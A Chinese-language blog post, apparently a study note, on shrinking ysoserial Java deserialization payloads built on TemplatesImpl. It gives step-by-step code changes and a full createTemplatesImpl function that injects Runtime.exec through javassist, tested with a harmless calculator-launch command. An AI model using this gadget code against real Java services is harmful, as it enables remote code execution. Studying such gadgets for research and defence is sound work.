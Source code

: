 ## 缩小ysoserial payload体积的几个方法

ysoserial中不少payload使用`TemplatesImpl`进行构造，在学习ysoserial的过程中，发现可以通过修改`createTemplatesImpl`方法的一些代码使ysoserial生成的payload更小一些。

先看下ysoserial中createTemplatesImpl方法的主要流程，首先创建一个TemplatesImpl对象，使用javassist开始构造恶意类，首先获取一个ClassPool对象，将`StubTransletPayload`类和`AbstractTranslet`类添加到pool的类加载路径中，然后获取`StubTransletPayload`类，并使用javassist对类进行修改，插入静态代码块，然后将父类设置为`AbstractTranslet`，设置TemplatesImpl对象的`_name`,`_tfactory`,`_bytecodes`字段。

以下测试使用CommonsCollections3生成payload执行`open /Applications/Calculator.app`命令

### 1. 修改_bytecode字段内容

在ysoserial中，_bytecode数组中包含两个元素，一个是用于代码执行的类，另外一个是没有内容的类，跟进`TemplatesImpl`类的`defineTransletClasses`方法。

![-w1048](media/15671323775291/15674224325864.jpg)

与命令执行相关的两个重要的字段分别是`this._class`和`this._transletIndex`，这段代码对_bytecode数组中的类进行遍历，如果类的父类是AbstractTranslet类，那么就把_transletIndex设置成对应的index,所以只要恶意类在_bytecode数组中，并且父类是AbstractTranslet即可

于是可以将
```java
Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {classBytes, ClassFiles.classAsBytes(Foo.class)});
```
修改为以下代码
```java
Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {classBytes});
```

生成的payload从3562字节缩小到3084字节

### 2. 删除_tfactory字段

ysoserial中对`_tfactory`进行了赋值
```java
Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
```
在`TemplatesImpl`类中`_tfactory`字段被transient修饰，是不参与序列化的，所以可以直接删除，既然是不参与序列化的，所以删除之后payload大小不会发生改变

### 3. 修改StubTransletPayload类

StubTransletPayload类代码继承了AbstractTranslet实现序列化接口，并重写了transform方法。

![-w1056](media/15671323775291/15674215840589.jpg)

上边提到了恶意类的父类必须是AbstractTranslet，但是生成的类，被转化成了字节码存在了_bytecodes中，所以序列化过程也没有他什么事情，就可以去掉Serializable接口了

StubTransletPayload通过直接extends方式指定父类是AbstractTranslet，为了编译通过就得实现+重写这一堆transform方法，但是实际上在TemplatesImpl类中，只需要类的父类是AbstractTranslet就可以了,只需要保留个类名就可以了

```java
public static class StubTransletPayload  {}
```

生成的payload从到3084字节缩小到2177字节

### 4. 使用javassist创建类

直接使用javassist创建一个类看下会有什么效果
使用
```java
final CtClass clazz = pool.makeClass("StubTransletPayload");
```
代替
```java
pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));
...
final CtClass clazz = pool.get(StubTransletPayload.class.getName());
```

生成的payload从到2177字节缩小到1912字节

看下使用写好的StubTransletPayload和使用javassist直接创建类的区别

直接使用StubTransletPayload类

![-w624](media/15671323775291/15674395355228.jpg)

使用javassist直接创建

![-w626](media/15671323775291/15674396030286.jpg)

可以看到constant_pool中少了很多内容

### 最终代码

```java
private static Object createTemplatesImpl() throws IllegalAccessException, InstantiationException, NotFoundException, CannotCompileException, IOException, NoSuchFieldException {
    TemplatesImpl templates = TemplatesImpl.class.newInstance();
    ClassPool classPool = ClassPool.getDefault();
    classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
    CtClass clazz = classPool.makeClass(String.valueOf(System.nanoTime()));
    String string = "java.lang.Runtime.getRuntime().exec(\"open /Applications/Calculator.app\");";
    clazz.makeClassInitializer().insertAfter(string);
    CtClass superC = classPool.get(AbstractTranslet.class.getName());
    clazz.setSuperclass(superC);
    final byte[] classBytes = clazz.toBytecode();
    Field bcField = TemplatesImpl.class.getDeclaredField("_bytecodes");
    bcField.setAccessible(true);
    bcField.set(templates, new byte[][] {classBytes});
    Field nameField = TemplatesImpl.class.getDeclaredField("_name");
    nameField.setAccessible(true);
    nameField.set(templates, "a");
    clazz.writeFile();
    return templates;
}
```

还可以更小一点，比如用javassist创建类的时候把类名设置成1

遇到的一些小问题:

在测试中分别看了下用静态代码块和构造函数，如果用javassist直接创建类，可以直接用
```java
CtConstructor ctConstructor = new CtConstructor(new CtClass[] {}, clazz);
ctConstructor.setBody("java.lang.Runtime.getRuntime().exec(\"open /Applications/Calculator.app\");");
clazz.addConstructor(ctConstructor);
```
添加一个构造器，如果修改已经写好的类，因为对没有显示指定构造方法的类编译器在编译时会自动给加上默认的构造方法，所以不能直接增加这样一个构造方法，需要先删除编译器加上的默认构造方法，或者直接对他进行修改
```java
CtConstructor ctConstructor = clazz.getDeclaredConstructors()[0];
clazz.removeConstructor(ctConstructor);
CtConstructor newCtConstructor = new CtConstructor(new CtClass[] {}, clazz);
newCtConstructor.setBody("java.lang.Runtime.getRuntime().exec(\"open /Applications/Calculator.app\");");
clazz.addConstructor(newCtConstructor);
```
或
```java
CtConstructor ctConstructor = clazz.getDeclaredConstructors()[0];
ctConstructor.setBody("java.lang.Runtime.getRuntime().exec(\"open /Applications/Calculator.app\");");
```

学习ysoserial过程中的一些想法吧，虽然把payload缩小点实际也用处不大，了解下万一以后有机会用的到了呢。
